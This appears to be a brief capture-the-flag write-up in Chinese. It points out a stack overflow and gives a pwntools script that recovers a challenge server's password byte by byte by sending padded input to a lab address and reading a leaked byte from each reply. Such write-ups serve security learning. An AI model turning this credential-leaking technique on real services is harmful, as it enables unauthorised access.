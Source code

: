 明显的栈溢出，但是最简单的做法就是直接泄露出密码：
```PY
#!/usr/bin/env python
# coding=utf-8

from pwn import *
passwd = ""
#context.log_level = "debug"
for i in range(32):
    try:
        p = remote("10.21.13.203",1234)    #process("./server")
        p.send(passwd.ljust(22,'\xff'))
        tmp = 0xff - ord(p.recvuntil('bye~')[63])
        passwd += chr(tmp)
        log.info(passwd)
    except:
        pass
	finally:
		p.shutdown()
```
![](./images/1.png)
![](./images/2.png)
